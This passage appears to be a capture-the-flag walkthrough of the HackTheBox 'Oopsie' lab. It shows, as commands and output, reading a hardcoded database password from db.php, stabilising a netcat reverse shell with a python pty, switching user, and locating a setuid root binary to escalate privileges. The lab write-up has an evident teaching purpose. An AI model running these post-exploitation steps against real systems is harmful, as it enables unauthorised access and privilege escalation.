 What is the file that contains the password that is shared with the robert user?

we found the password under `/var/www/html/cdn-cgi/login` .

And we can find the username and password in the `db.php` :

```bash
 $ cd //var/www/html/cdn-cgi/login
$ ls
admin.php
db.php
index.php
script.js
$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
# Task 7

What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? 
## Shell Stabilization

Let's find out, we switch user to `robert` with the found password, but to do that first we have to perform a [Shell Stabilization](../../../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) : 

```bash
$ su robert
su: must be run from a terminal
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@oopsie://$ export TERM=xterm
export TERM=xterm
www-data@oopsie://$ ^Z
zsh: suspended  nc -lvnp 1337
                 
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Oopsie]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                reset
www-data@oopsie://$ su robert
Password: 
```

Now we can try to search for the asked types of files with this query :

```bash
robert@oopsie://$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
robert@oopsie://$ ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
obert@oopsie://$ ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```
